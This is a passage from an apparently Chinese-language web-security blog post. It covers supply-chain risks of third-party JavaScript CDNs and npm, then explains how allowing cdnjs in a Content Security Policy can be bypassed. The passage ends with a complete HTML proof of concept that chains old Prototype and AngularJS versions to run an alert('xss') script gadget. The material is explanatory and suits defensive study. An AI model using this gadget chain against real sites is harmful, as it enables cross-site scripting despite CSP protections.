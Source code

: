 而現在許多網站因為 library 都會經由 webpack 這類型的 bundler 重新切分，所以沒有辦法使用第三方的 library CDN，一定會放在自己家的網站上，也就排除了這類型的供應鏈攻擊。

可是要注意的是，你仍然避免不了其他供應鏈攻擊的風險。因為儘管沒有用第三方的 library CDN，還是需要從別的地方下載這些函式庫對吧？例如說 npm，你的函式庫來源可能是這裡，意思就是如果 npm 被入侵了，上面的文件被竄改，還是會影響到你的服務。這就是供應鏈攻擊，不直接攻擊你，而是從其他上游滲透進來。

不過這類型的風險可以在 build time 的時候透過一些靜態掃描的服務，看能不能抓出被竄改的檔案或是惡意程式碼，或也有公司會在內部架一個 npm registry，不直接與外面的 npm 同步，確保使用到的函式庫不會被竄改。

## 額外風險：CSP 的繞過

除了上面提到的供應鏈安全風險以外，其實使用第三方 JS 還有另一個潛在風險，就是 CSP(Content Security Policy) 的繞過。現在有許多網站都會設置 CSP，阻擋不信任的來源，例如說只允許某個 domain 的 JS 檔案，或是不開放 inline event 跟 eval 等等。

如果你的網站有用到 cdnjs 的腳本，你的 CSP 裡面勢必會有 `https://cdnjs.cloudflare.com` 這個網址。比起完整的路徑，比較多人會傾向允許整個 domain 的東西，因為你可能用到多個 library，懶得一個一個新增上去。

這時候若是網站有著 XSS 漏洞，一般情況下 CSP 應該會有防禦作用，阻止這些不信任的程式碼的執行。但很遺憾地，CSP 中 `https://cdnjs.cloudflare.com` 的這個路徑，讓攻擊者可以輕鬆繞過 CSP。

先講一下原理，原理就是 cdnjs 上除了你想要用的 library 之外，還有千千萬萬個不同的 library，而有些 library 本身提供的功能，讓攻擊者不需要執行 JS，也能執行任意程式碼。

例如說 AngularJS，在舊版本中有著 [Client-Side Template Injection](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs) 的漏洞，只需要 HTML 就可以執行程式碼，像是這類「利用其他合法的 script 幫助你執行攻擊程式碼」的手法，叫做 script gadgets，想知道更多可以參考：[security-research-pocs/script-gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets)

假設我們現在的 CSP 只允許 `https://cdnjs.cloudflare.com`，該怎麼繞過呢？我找到這兩個很棒的資源：
1. [Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)
2. [H5SC Minichallenge 3: "Sh＊t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)

只要利用 AngularJS + Prototype 這兩個 library，就可以在符合 CSP（只引入 cdnjs 底下的腳本）的情況下進行 XSS，我做了一個簡單的 demo：https://aszx87410.github.io/demo/csp_bypass/cdnjs.html

完整程式碼如下：

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>CSP bypass</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src https://cdnjs.cloudflare.com">
  </head>
  <body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
    <div ng-app ng-csp>
      { $on.curry.call().alert('xss') }}
    </div>
  </body>
</html>
```
